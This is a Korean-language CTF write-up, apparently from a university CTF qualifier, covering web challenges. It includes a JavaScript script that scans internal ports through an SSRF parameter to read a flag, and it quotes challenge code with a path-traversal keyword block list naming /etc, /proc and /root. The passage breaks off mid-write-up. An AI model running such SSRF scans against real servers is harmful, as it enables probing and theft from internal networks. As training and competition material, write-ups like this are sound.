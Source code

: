 아주대 CTF 열린다고 해서 세명컴고 팀원 두 분이랑 아는 웹 해커 한 분이랑 같이 예선 나갔다.  
팀원들이 다 열심히 해주기도 했고, 같이 웹 푼 팀원이 나랑 합이 꽤 잘 맞아서 잘 풀었던거 같다.

라이트업은 잘 모르는 분야까지 다 쓰긴 좀 그래서 웹만 써보겠다

## Solve
- [Web] My WebView
- [Web] Admin NAS
- [Web] XSS Tester
- [Web] Donation

## Write-Up
### My WebView
간단한 SSRF 문제이다

일단 기본적으로 링크를 넣으면 서버에서 요청해서 그걸 보여주는 서비스이다.

html에 ?list가 주석처리 되어 있고 접속해보면 서버 디렉토리 리스트를 준다.
hosts에선 서버의 내부 아이피를, reports에선 내부망 포트 범위와 /flag 디렉토리의 존재를 알려준다.

```js
const axios = require('axios');

(async () => {
  for (let i = 1000; i <= 10000; i++) {
    const res = await axios.get(`http://3.36.10.125/?url=http://192.168.200.110:${i}/internal`);

    if(res.data !== '') {
      console.log(`Find Port! ${i}`);
    }
  }
})();
```

`http://3.36.10.125/?url=http://192.168.200.110:5090/flag`

이런식으로 브포 코드 짜서 포트 알아내고 플래그 읽어오면 된다.

`flag{b59855ea1f33a1a8ec0cc0216abcd058603b5e34b86ea4e2344f8a0811bfa1cdd683be3badbe440835a3f685615628d5099d1f35209858e1241b587be593}`

---

### Admin NAS

해외 CTF 어딘가에서 봤던 로직 그대로 나온 문제였는데 그걸 기억 못하고 많이 삽질했다

```js
const users = {
  admin: {
    password: crypto.randomBytes(16).toString('hex'), otp: "disabled"
  },
};

const FILES_DIR = path.join(__dirname, "public");

const BLOCKED_KEYWORDS = ["../", "/proc", "/bin", "/etc", "/flag.txt", "/home", "/root"]

const isAdmin = (req, res, next) => {
  if (req.session.isAdmin) {
    next();
  } else {
    res.status(403).json({ message: "ADMIN만 접근 가능합니다." });
  }
}

```